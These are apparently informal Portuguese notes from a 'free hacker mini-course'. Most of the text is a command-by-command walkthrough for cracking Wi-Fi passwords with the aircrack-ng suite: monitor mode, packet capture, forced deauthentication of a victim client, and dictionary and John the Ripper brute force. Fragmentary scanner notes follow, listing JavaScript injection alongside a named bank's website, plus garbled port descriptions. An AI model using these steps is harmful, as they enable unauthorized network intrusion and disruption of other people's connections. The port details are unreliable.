 # Mini Curso Gratuito Hacker

## Vulnerabilidades em Redes Wi-Fi
--visualizando todas as placas de rede do computador
airmon-ng

--colocando a placa de rede em modo de monitoramento
iwconfig wlan1 --traz todas as informações da placa de rede selecionada
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up

esse programa da suite aircrack serve para monitorar 
todas as redes wifi ao alcance
airodump-ng wlan1

--visualizando todos os clientes de uma determinada rede
uma breve explicação sobre o airodump
esse e um programa que baixa os pacotes de wifi de uma determinada
rede enquanto a monitora tbm

airodump-ng --bssid 52:55:27:B4:4A:BC --channel 6 --write wifi wlan1

agora vamos forçar a desconexao de um cliente
aireplay-ng -0 100 -a F8:1A:67:D4:E2:60 -c 44:74:6C:F0:19:19 wlan1

depois de ter certeza que a pessoa foi desconectada agora iremos usar uma password list para achar a senha
temos que inserir o bssid da rede e nao do cliente atacado
aircrack-ng wifi-*.cap -w /root/passlist.txt -b E8:CC:18:F3:B0:80

caso a senha nao esteja no password list podemos tentar pelo jonh de ripper
se trata de um programa dedicado a brute force
john --stdout --incremental | aircrack-ng -b 00:19:5B:52:AD:F7 -w - /root/wifi*.cap

------------------------------------------------------------------------------------------------

Shadow security scanner
Safety-lab *cuidado tem um monte malware
Pago

Executar como administrador

New session
Complete scan
Host
Name ip: nome do site
Start scan

Ping ttl net bios 
Porta 
53 redirect de dns 
587 mail flud
110 telnet vírus com imagem

Exibe qual é a falha e como concertar

Javascript injection
Site do itau
